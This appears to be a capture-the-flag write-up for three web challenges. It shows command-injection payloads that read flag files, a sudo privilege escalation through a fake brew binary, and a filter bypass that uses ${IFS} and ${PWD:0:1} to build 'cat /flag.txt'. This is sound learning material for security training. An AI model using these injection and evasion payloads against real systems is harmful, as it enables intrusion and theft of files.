


# Web
## Caffeine (User)
While testing the `Check order status` found that it's just grep i right if it matches whatever like a customer name or coffee type or order id so i tried doing command injection AND WALLA `Lattee;ls` gave me everything then made `Lattee; cat user.txt` which had the Flag
## Caffeine (Root)
This was more challenging it had the flag at `/root/root.txt` which needed from me to find a privilege escalation way to read it.
When i did `sudo -l` i found that i can use /usr/local/bin/brew with sudo so why not i did it and found that it was a fake brew that i can just do 
```bash
Latte;sudo /usr/local/bin/brew /root/root.txt
``` 
And catched it.

## Baking Bad

command injection with many strings are banned like `cat`, `/`, `-`, `printf ` with space and many others, but i found that i can use `$`, `{}`, `:`, `.`, `=`,   and that was enough :).
first i found  that i can use env so i thought of taking any path in the env and take from it the `/` and use it my way
```bash
a;env 
```

And here we are
```bash
a;ls${IFS}${PWD:0:1} # To test that i really can use the slash now
a;f=ca;l=t;$f$l${IFS}${PWD:0:1}flag.txt # which is just cat `/flat.txt`
```

